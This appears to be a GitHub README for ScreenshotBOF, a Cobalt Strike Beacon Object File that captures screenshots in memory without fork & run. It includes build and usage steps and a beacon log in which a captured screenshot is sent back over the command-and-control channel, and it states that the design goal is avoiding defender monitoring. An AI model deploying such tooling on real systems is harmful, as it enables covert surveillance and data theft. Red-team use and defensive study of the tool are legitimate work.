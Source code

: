 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename} {save method 0/1}

Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)
```
beacon> screenshot_bof sad.bmp 1
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 5267 bytes
[+] received output:
[*] Screen saved to bitmap
[+] received output:
[*] Downloading bitmap over beacon with filename sad.bmp
[*] started download of sad.bmp
```

## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- @BinaryFaultline for BMP rendering in aggressorscript, and screenshot callback branch